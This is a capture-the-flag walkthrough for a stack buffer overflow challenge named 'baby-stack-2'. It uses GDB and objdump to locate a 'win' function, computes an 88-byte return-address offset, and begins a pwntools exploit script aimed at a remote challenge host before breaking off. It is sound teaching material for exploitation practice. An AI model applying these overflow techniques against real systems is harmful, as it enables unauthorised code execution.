 ### Step 3: Finding a Target Function (e.g., a "win" function)

We need to find a function to redirect execution to. This is often a "win" function, one that prints a flag, or calls `system("/bin/sh")`.

1.  **List functions in GDB**:

    ```gdb
    info functions
    ```

    Look for any functions that seem promising (e.g., `win`, `print_flag`, `shell`, `system_call`, etc.).

2.  **Disassemble functions**:
    If you find a candidate function, get its address and disassemble it:

    ```gdb
    p <function_name>   # To get its address
    disas <function_name> # To see its assembly code
    ```

3.  **Using objdump (alternative)**:
    You can also list symbols and disassemble with `objdump`:
    ```bash
    objdump -tT ./baby-stack-2 # List symbols
    objdump -d ./baby-stack-2  # Disassemble all
    ```
    Look for relevant function names and their addresses.

Please provide the name and address of any potential target function you find.

### Step 4: Crafting and Sending the Exploit

Based on our analysis:

- The `checksec` output showed **No Canary**, **NX Disabled**, and **No PIE**.
- The `info functions` command in GDB revealed a `win` function at address `0x000000000040129b`.
- Disassembling `get_username` showed a buffer of `0x50` (80 decimal) bytes allocated on the stack (`sub $0x50, %rsp`).
- The offset to overwrite the return address is `buffer_size + size_of_saved_rbp`. For x86-64, the saved `rbp` is 8 bytes. So, the offset is `80 + 8 = 88` bytes.

We can now write our exploit script.

**`exploit.py`**

```python
from pwn import *

# Offset to the return address
OFFSET = 88

# Address of the win function (from GDB: info functions)
WIN_FUNCTION_ADDRESS = 0x000000000040129b

# Target details
HOST = 'cyberskills.ch'
PORT = 5000

# Connect to the target
# For local testing, you would use:
# target = process('./baby-stack-2')
# gdb.attach(target) # If you want to debug locally
target = remote(HOST, PORT)

# Craft the payload
# 'A' * OFFSET fills the buffer up to the return address
```
